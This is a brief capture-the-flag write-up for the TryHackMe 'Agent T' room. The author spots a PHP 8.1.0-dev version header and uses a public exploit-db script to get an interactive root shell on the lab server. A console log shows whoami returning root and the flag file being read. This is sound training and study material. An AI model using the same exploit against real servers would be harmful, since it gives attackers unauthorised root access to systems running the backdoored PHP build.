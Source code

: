 ```yaml
---
title: "Agent T"
date: 2025-02-01
image: /assets/img/general/CTFgeneral_image.jpg
description: Writeup of the TryHackMe-CTF Agent T
categories: [TryHackMe, Easy]
tags: [linux, web]
---
```


## Challenge Description
<center>
<table>
  <tr>
    <td>Plattform</td>
    <td>TryHackMe</td>
  </tr>
  <tr>
    <td>Name</td>
    <td>Agent T</td>
  </tr>
  <tr>
    <td>Description</td>
    <td>Something seems a little off with the server.</td>
  </tr>
  <tr>
    <td>Difficulty</td>
    <td>Easy</td>
  </tr>
  <tr>
    <td>OS</td>
    <td>Linux</td>
  </tr>
  <tr>
    <td>Link</td>
    <td><a href="https://tryhackme.com/r/room/agentt">https://tryhackme.com/r/room/agentt</a></td>
  </tr>
</table>
</center>

This writeup is a possible solution of the CTF-challenge Agent T.  

## Challenge
The description focuses the challenge on the website, so I directly moved to it and skipped the initial `nmap` scan. The webserver provided a dashboard:

![Dashboard](/assets/img/tryhackme/AgentT/thm_agentt_1.jpg)

I used Burp Suite to intercept the requests while interacting with it. An interesting header was set: `X-Powered-By: PHP/8.1.0-dev`. Research on this PHP version led me to this <a href="https://www.exploit-db.com/exploits/49933">exploit-db</a> entry. 
```bash
$ python3 exploit.py                      
Enter the full host url:
http://10.10.120.98/

Interactive shell is opened on http://10.10.120.98/ 
Can't acces tty; job crontol turned off.
$ whoami
  root

$ find / -name flag.txt 2>/dev/null
  /flag.txt

$ cat /flag.txt
  flag{[removed]}
```

solved! :)

